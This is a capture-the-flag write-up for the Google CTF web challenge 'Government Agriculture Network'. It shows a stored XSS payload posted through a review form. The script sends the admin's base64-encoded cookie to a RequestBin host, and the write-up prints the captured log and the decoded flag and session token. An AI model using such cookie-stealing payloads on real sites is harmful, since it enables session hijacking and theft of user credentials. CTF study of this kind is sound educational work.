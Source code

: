 # Government Agriculture Network
Category: Web

## Description
> Well it seems someone can't keep their work life and their home life separate. You vaguely recall on your home planet, posters put up everywhere that said "Loose Zips sink large commercial properties with a responsibility to the shareholders." You wonder if there is a similar concept here.
> 
> Using the credentials to access this so-called Agricultural network, you realize that SarahH was just hired as a vendor or contract worker and given access that was equivalent. You can only assume that Vendor/Contractor is the highest possible rank bestowed upon only the most revered and well regarded individuals of the land and expect information and access to flow like the Xenovian acid streams you used to bathe in as a child.
> 
> The portal picture displays that small very attractive individual whom you instantly form a bond with, despite not knowing. You must meet this entity! Converse and convince them you're meant to be! After a brief amount of time the picture shifts into a biped presumably ingesting this creature! HOW DARE THEY. You have to save them, you have to stop this from happening. Get more information about this Gubberment thing and stop this atrocity.
> 
> You need to get in closer to save them - you beat on the window, but you need access to the cauliflower's  host to rescue it.
> 
> https://govagriculture.web.ctfcompetition.com/ 

## Solution

We visit the site and see the following content:

```html

    <nav class="navbar navbar-light bg-light">
      <span class="navbar-brand mb-0 h1">Ministry of Agriculture</span>
      <ul class="navbar-nav ml-auto">
        <li class="nav-item">
          <a class="nav-link" href="/admin">Admin</a>
        </li>
      </ul>
    </nav>

    <div class="container mt-3">
      
    <div class="row justify-content-center">
        <div class="col-9">
            <div class="news-create">
                <h2>Create a new post</h2>
                <form method="POST" action="/post">
                    <div class="form-group">
                        <textarea class="form-control" id="postContents" name="postContents" rows="10" placeholder="Enter your text here..."></textarea>
                    </div>
                    <button type="submit" class="btn btn-primary">Submit</button>
                </form>
            </div>
            <div class="news-post">
                <h2 class="news-post-title">New acquisition on our farms</h2>
                <div class="news-post-date">May 15, 2019</div>
                <div class="news-post-content">
                    <div id="rescue-me">
                        <div class="mx-auto" width="500px">
                            <img src="/static/images/cauliflower.jpg" alt="Cauliflower" width="100%">
                        </div>
                        <div class="mx-auto mt-2" width="500px">
                            <img src="/static/images/eating.png" alt="People eating cauliflower" width="100%">
                        </div>
                    </div>
                </div>
            </div>
        </div>
    </div>

    </div>
```

There's an "Admin" link, and a form to create a new post. "Admin" link redirects us back to the current page. What can we do with the form?

We start by testing out the form with a random input. The response from the form is ` Your post was submitted for review. Administator will take a look shortly. `. This is a hint towards XSS!

Our next attempt is:
```html
<script>image = new Image(); image.src='http://requestbin.fullcontact.com/1ejsfet1?e='+btoa(document.cookie);</script>
```

We will be using the [RequestBin](http://requestbin.fullcontact.com) service, which will log any activity to the URL we've provided and display it to us.

We are creating an image using Javascript, and setting the image source to the request bin, appending the user's cookie to the URI. When the user visits the website, the browser will attempt to load the image: It will take the base URL (the RequestBin URI), append to it the user cookie (base64 encoded), and use that as the image source. Since we have access to the server logs, we will be able to see the URI and extract the user cookie.

After a few seconds, we see such activity:

```
http://requestbin.fullcontact.com
GET /1ejsfet1?e=ZmxhZz1DVEZ7OGFhYTJmMzRiMzkyYjQxNTYwMTgwNGMyZjVmMGYyNGV9OyBzZXNzaW9uPUhXU3V3WDg3ODRDbWtRQzFWdjBCWEVUanlYTXROUXJW

0 bytes
17s ago
From 34.77.138.159, 104.155.55.51, 70.132.20.70
FORM/POST PARAMETERS
None
QUERYSTRING

e: ZmxhZz1DVEZ7OGFhYTJmMzRiMzkyYjQxNTYwMTgwNGMyZjVmMGYyNGV9OyBzZXNzaW9uPUhXU3V3WDg3ODRDbWtRQzFWdjBCWEVUanlYTXROUXJW
HEADERS

Cloudfront-Is-Desktop-Viewer: true
X-Amz-Cf-Id: ei8CZwl45u5YkdeE9xWEFLV1-OsWC6YL7Nd1yfDKVVXdy6qrPFfOUA==
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Total-Route-Time: 0
Pragma: no-cache
Accept-Encoding: gzip, deflate
Connect-Time: 1
Cache-Control: no-cache
Cloudfront-Is-Smarttv-Viewer: false
Host: requestbin.fullcontact.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3827.0 Safari/537.36
Cloudfront-Is-Mobile-Viewer: false
X-Request-Id: e8d017c5-6058-454b-ae70-f012cc38cbbf
Cloudfront-Forwarded-Proto: http
Via: 1.1 infra-squid (squid/3.5.27), 1.1 58336461deb255b6ec24bb4f21db9b6b.cloudfront.net (CloudFront), 1.1 vegur
Connection: close
Cloudfront-Viewer-Country: US
Cloudfront-Is-Tablet-Viewer: false
```

We got the cookie, just need to decode it:
```console
root@kali:/media/sf_CTFs/google/Government_Agriculture_Network# echo ZmxhZz1DVEZ7OGFhYTJmMzRiMzkyYjQxNTYwMTgwNGMyZjVmMGYyNGV9OyBzZXNzaW9uPUhXU3V3WDg3ODRDbWtRQzFWdjBCWEVUanlYTXROUXJW | base64 -d
flag=CTF{8aaa2f34b392b415601804c2f5f0f24e}; session=HWSuwX8784CmkQC1Vv0BXETjyXMtNQrV
```